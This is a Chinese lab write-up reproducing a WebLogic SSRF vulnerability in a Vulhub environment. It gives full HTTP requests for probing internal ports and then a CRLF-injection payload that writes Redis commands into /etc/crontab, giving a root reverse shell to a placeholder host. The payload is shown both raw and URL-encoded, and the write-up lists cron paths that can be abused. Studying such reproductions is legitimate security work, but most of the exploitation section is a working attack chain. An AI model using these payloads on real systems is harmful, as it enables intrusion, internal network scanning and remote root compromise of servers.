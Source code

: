 # Weblogic SSRF漏洞

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

![image-20220302210736666](./images/202203022107741.png)

## 漏洞复现

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在burpsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![image-20220302211012943](./images/202203022110046.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![image-20220302211141064](./images/202203022111161.png)

通过错误的不同，即可探测内网状态。

### 反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

> 此处kali启动redis失败，转为CentOS vps进行复现。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![image-20220302220543308](./images/202203022205403.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
test

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/your-reverse-shell-ip/9999 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功反弹：

![image-20220302220843300](./images/202203022208358.png)

最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root是centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root是debian系统下root用户的cron文件

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

